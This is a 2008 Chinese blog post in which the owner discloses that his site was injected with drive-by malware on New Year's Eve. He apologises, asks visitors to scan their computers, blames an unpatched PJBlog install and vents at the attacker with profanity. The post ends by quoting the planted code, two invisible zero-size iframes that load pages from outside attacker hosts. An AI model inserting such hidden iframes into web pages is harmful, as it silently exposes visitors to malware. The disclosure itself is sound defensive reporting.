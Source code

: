 ```yaml
---
title: 本Blog2月6日被挂马 及 恢复正常 公告
description:        08年2月6日（大年三十），凌晨4时许，本blog被人恶意挂马，请2月6日凌晨4时至中午12点10分，下午4时至晚12时访问过本blog的自行对自己的机器进行杀毒，RSS订阅用户不受影响（从这也看出了RSS订阅的威力，不仅是没有繁杂广告的好处，一些非文章内容的恶意代码也进不去，推荐大家订阅本Blog的RSSFEED：http://feed.feedsky.com/15897），中间断缺的时间是我发现了被挂马，但是临时有事要出门，就把blog站点关闭了，下午4时又继续搞的，大概晚11点左右将各文件的恶意代码清除完毕，今日又将一些损坏的文件乱码等恢复了下。
date: 2008-02-08 05:47:57
category: 心情随笔
tags: ['本站历程', '心情随笔']
post_id: 360
alias:
ViewNums: 6294
---
```


08年2月6日（大年三十），凌晨4时许，[本blog](/blog/)被人恶意挂马，请2月6日凌晨4时至中午12点10分，下午4时至晚12时访问过本blog的自行对自己的机器进行杀毒，RSS订阅用户不受影响（从这也看出了RSS订阅的威力，不仅是没有繁杂广告的好处，一些非文章内容的恶意代码也进不去，推荐大家订阅本Blog的RSS FEED：<http://feed.feedsky.com/15897>），中间断缺的时间是我发现了被挂马，但是临时有事要出门，就把blog站点关闭了，下午4时又继续搞的，大概晚11点左右将各文件的恶意代码清除完毕，今日又将一些损坏的文件乱码等恢复了下。

在此先向大家说声**对不起**了。

初步判断是师傅在我空间里新搞的pjblog出的问题，他才搞的，什么洞都没补，导致一些伪黑客进入破坏。

在此严重BS一下那个XX人，大年三十的大家都放假休息了，您还真TMD敬业啊，凌晨4点还搞，而且我这blog日IP不过几百而已，你挂马，能抓几个鸡啊，穷鬼，连我这小blog都不放过，挂个黑页留个大名意思意思就行了，非要搞的那么“隆重”，整的我过个年都没过安生，cao，大年三十出这档子事，真TM恶心，呕吐，干哕，窝心。。。。。。。团圆饭都吃的不爽

再次向访问本blog的朋友说声对不起，这里记录下这件事，也提醒各位博主及站长，放假期间安全也马虎不得

挂在本blog的马：
```html
<iframE srC=http://aaa.77xxmm.Cn/new858.htm?075 wiDth=0 name='7905' heIght=0></Iframe>
<Iframe src=http://aaa.1l1l1l.coM/error/404.htMl wIdth=0 Name='7905' height=0></ifraMe>
```
